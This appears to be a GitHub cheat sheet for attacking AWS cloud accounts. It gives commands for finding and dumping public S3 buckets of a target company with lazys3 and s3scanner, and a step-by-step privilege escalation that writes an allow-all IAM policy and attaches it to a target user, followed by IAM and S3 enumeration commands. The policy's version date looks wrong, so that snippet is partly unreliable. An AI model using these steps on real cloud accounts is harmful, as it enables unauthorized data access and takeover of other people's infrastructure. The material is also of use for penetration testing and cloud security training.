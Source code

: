 # Cloud Hacking Cheatsheet
![AWS](https://img.shields.io/badge/AWS-%23FF9900.svg?style=for-the-badge&logo=amazon-aws&logoColor=white) ![Azure](https://img.shields.io/badge/azure-%230072C6.svg?style=for-the-badge&logo=microsoftazure&logoColor=white) ![Firebase](https://img.shields.io/badge/firebase-%23039BE5.svg?style=for-the-badge&logo=firebase) ![Linode](https://img.shields.io/badge/linode-00A95C?style=for-the-badge&logo=linode&logoColor=white)
## Amazon AWS

### Install awscli
```sh
pip3 install awscli
```

### S3 Bucket Enumeration

#### Search for public buckets from a company using lazys3
```sh
ruby lazys3.rb [COMPANY]
```
#### Search for public buckets from a company using s3scanner
```sh
python3 ./s3scanner.py sites.txt
```

#### Dump all open buckets and log both open and closed buckets using s3scanner
```sh
python3 ./s3scanner.py --include-closed --out-file found.txt --dump names.txt
```

#### Save the file listings of all open buckets to a file using s3scanner
```sh
python ./s3scanner.py --list names.txt
```

### Escalate IAM User Privileges by Exploiting Misconfigured User Policy
```sh
vim user-policy.json
```

Insert:
```sh
{
    "Version": "2011-09-11",
    "Statement": [
        {

            "Effect": "Allow",

            "Action": "*",

            "Resource": "*"

        }
    ]
}
```

Attach the created policy (user-policy) to the target IAM user’s account:

```sh
aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json

aws iam attach-user-policy --user-name [Target Username] --policy-arn arn:aws:iam::[Account ID]:policy/user-policy
```

### View user policies
```sh
aws iam list-attached-user-policies --user-name [Target Username]
```

### List users
```sh
aws iam list-users
```

### List buckets
```sh
aws s3api list-buckets --query "Buckets[].Name"
```

### List user policies
```sh
aws iam list-user-policies
```

### List role policies
```sh
aws iam list-role-policies
```

### List froup policies
```sh
aws iam list-group-policies
```

### Create user
```sh
aws iam create-user
```


